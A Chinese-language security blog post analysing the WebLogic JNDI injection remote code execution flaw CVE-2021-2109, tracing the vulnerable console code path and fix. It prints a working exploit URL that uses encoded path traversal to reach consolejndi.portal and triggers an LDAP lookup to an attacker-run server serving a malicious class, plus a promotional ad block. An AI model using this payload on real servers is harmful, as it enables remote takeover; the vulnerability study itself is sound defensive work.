# WebLogic JNDI 注入（CVE-2021-2109） - 合天网安实验室 - 博客园

> 原文：[`www.cnblogs.com/hetianlab/p/17171051.html`](https://www.cnblogs.com/hetianlab/p/17171051.html)

## 0x01 前言

学习一下 WebLogic JNDI 注入 RCE（CVE-2021-2109）

## 0x02 环境搭建

和之前 WebLogic 的环境搭建是一致的，本文不再赘述。

不过值得一提的是，我的 weblogic 版本是 10.3.6；需要手动添加 `\server\lib\consoleapp\webapp\WEB-INF\lib\console.jar` 到依赖里面

## 0x03 漏洞分析与复现

### 漏洞影响版本与前提条件

Oracle WebLogic Server 10.3.6.0.0, 12.1.3.0.0, 12.2.1.3.0, 12.2.1.4.0, 14.1.1.0.0。

拥有访问 `/console/consolejndi.portal` 页面的用户权限，或者存在 CVE-2020-14883 未授权访问漏洞。关于未授权的漏洞我会放到 WebLogic 的另外一篇文章中再做分析

### 漏洞原理

WebLogic 的 `/console/consolejndi.portal` 接口可以调用存在 JNDI 注入漏洞的 `com.bea.console.handles.JndiBindingHandle` 类，从而造成 RCE。

### 漏洞复现

payload 如下

[`127.0.0.1:7001/console/css/%252e%252e%252fconsolejndi.portal?_pageLabel=JNDIBindingPageGeneral&_nfpb=true&JNDIBindingPortlethandle=com.bea.console.handles.JndiBindingHandle(%22ldap://127.0.0;1:1389/aew0xy;AdminServer%22)`](http://127.0.0.1:7001/console/css/%252e%252e%252fconsolejndi.portal?_pageLabel=JNDIBindingPageGeneral&_nfpb=true&JNDIBindingPortlethandle=com.bea.console.handles.JndiBindingHandle(%22ldap://127.0.0;1:1389/aew0xy;AdminServer%22))

我本地开启了一个 JNDI 的 Evil Class 和 Server



用 payload 打成功



### 漏洞分析

根据 payload 分析，先从 `consolejndi.portal` 开始看起，`.portal` 文件就类似于一个 servlet，在 `consolejndi.portal` 中存在 JNDI Binding 操作的处理容器，如图



具体的处理逻辑在 `/PortalConfig/jndi/jndibinding.portlet`



【----帮助网安学习，以下所有学习资料免费领！加 vx：yj009991，备注 “博客园” 获取！】

　① 网安学习成长路径思维导图
　② 60+网安经典常用工具包
　③ 100+SRC 漏洞分析报告
　④ 150+网安攻防实战技术电子书
　⑤ 最权威 CISSP 认证考试指南+题库
　⑥ 超 1800 页 CTF 实战技巧手册
　⑦ 最新网安大厂面试题合集（含答案）
　⑧ APP 客户端安全检测指南（安卓+IOS）

去到 `com.bea.console.actions.jndi.JNDIBindingActioncom.bea.console.actions.jndi.JNDIBindingAction` 类中，发现存在一个 `execute()` 方法，疑似存在 jndi 注入的漏洞。



观察需要如何构造恶意 payload，c 是由 `ConsoleUtils.initNamingContext(serverMBean);` 得来，而 `serverMBean` 是通过 `domainMBean.lookupServer(serverName);` 得来，其中一系列关系我将会由下图说明


接着我们自上而下顺序看代码，先是强转了一个 `JndiBindingHandle` 类，这里面 `getHandleContext()` 的逻辑并不复杂，最终会调用 JndiBindingHandle 的构造函数。



如图，我们在 payload 当中的这一段被放进了构造函的 `type` 与 `objectIdentifier` 中，而 `"ldapxxxx"` 这一段会被放在 components 中，由分号分隔

```
JNDIBindingPortlethandle=com.bea.console.handles.JndiBindingHandle("ldap://127.0.0;1:1389/aew0xy;AdminServer")
```

继续往下看，我们想要进入 JNDI 注入的那一段代码，需要满足两个条件，一个是 `serverMBean != null`，另一个是 `c != null`，我们进到 `serverMBean` 看一下代码逻辑

*   `lookupServer` 是 `DommainMBean` 接口的方法，我们去看它的实现类




实际上这里是动态代理调用的，会自动跟进到 `weblogic.management.jmx.MBeanServerInvocationHandler#invoke` 下，其中 method 的值为 `weblogic.management.configuration.DomainMBean#lookupServer`，它的 method 代码逻辑在实现类当中，也就是 `weblogic.management.configuration.DomainMBeanImpl#lookupServer`



我们需要走到 do while 的逻辑里面，返回 var3，而不是返回 null



通过调试得到 var2 的值为 `AdminServer`，这里没有其他的值了，原因如图





所以此处要求我们输入的 var1 与 `AdminServer` 相同，回过头去看 var1 是什么呢，var1 其实是 `serverName`


发现 serverName 也是可控的



> 现在 `serverBean != null` 没问题，就要看 jndi lookup 的地址是否可控。

很明显，jndi lookup 的地址也是可控的



我们进到 `JndiBindingHandle` 类去看一下 `set/getComponents()` 的逻辑，先调用了 `HandleImpl#getComponent`



跟进



主要逻辑就是在讲，以 `;` 分隔，如此一来，我们就可控 context 与 binding，可以进行 jndi 注入

> 最后捋一下整体条件

1、`;`号隔开 jndi 地址 2、serverName 必须为 AdminServer

## 0x04 漏洞修复

根据 Y4er 师傅这里的说法是，对 Jndi 的黑名单进行了判断，如图



## 0x05 小结

不算难的一个漏洞，只是环境搭建当时踩了很多坑，欢迎师傅们与我交流踩坑问题，我会竭力帮助。

**更多靶场实验练习、网安学习资料，[请点击这里>>](https://www.hetianlab.com/)**